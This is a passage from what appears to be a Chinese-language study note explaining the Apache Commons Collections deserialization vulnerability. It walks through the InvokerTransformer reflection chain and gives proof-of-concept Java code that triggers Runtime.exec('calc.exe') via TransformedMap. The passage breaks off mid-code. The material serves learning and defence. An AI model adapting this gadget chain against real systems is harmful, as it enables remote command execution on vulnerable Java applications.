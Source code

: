 把evil变量存入能运行记事本的执行代码，并将内容反序列化到文件中，再打开该文件会触发打开记事本



**apache的反序列化漏洞**

payload中的利用反射的结构是这样的

```
Transformer[] transformers = new Transformer[] {
	new ConstantTransformer(Runtime.class),
	
	new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
	
	new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
	
	new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
```

理解了好久，这里简述下我的理解,InvokerTransformer的构造函数如下

```
   public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```

第一个是字符串，是调用的方法名，第二个是个Class数组，带的是方法的参数的类型，第三个是Object数组，带的是方法的参数的值

以getMethod举例

第一个参数"getMethod"是这个函数的名字

第二个参数new Class[]{String.class, Class[].class}是getMethod的2个参数参数类型，一个是String，一个是class[]

第三个参数new Object[]{"getRuntime", new Class[0]}是getMethod的2个参数值，一个是getRuntime，一个是空，因为是数组形式所以要这么写

上面这个组合起来相当于 getMethod(\<String\> "getRuntime", \<Class[]\> null)



看下完整的payload代码

```
public class ApacheSerialize {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        
        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

		//创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

		//触发漏洞
        Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
        onlyElement.setValue("foobar");
```